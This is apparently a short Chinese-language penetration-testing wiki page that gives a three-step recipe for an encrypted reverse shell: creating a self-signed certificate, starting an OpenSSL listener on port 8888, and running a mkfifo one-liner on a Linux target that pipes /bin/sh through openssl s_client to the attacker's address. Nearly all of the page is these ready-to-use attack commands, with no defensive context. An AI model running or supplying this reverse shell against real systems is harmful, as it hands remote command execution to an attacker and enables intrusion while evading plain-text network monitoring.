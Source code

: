<languages  />

生成自簽名證書
--------------

    openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

服務端監聽8888端口
------------------

    openssl s_server -quiet -key key.pem -cert cert.pem -port 8888

Linux下使用mkfifo進行反彈shell
------------------------------

    mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect Your ip:Your port> /tmp/s; rm /tmp/s

[Category:滲透測試資料](Category:滲透測試資料 "wikilink")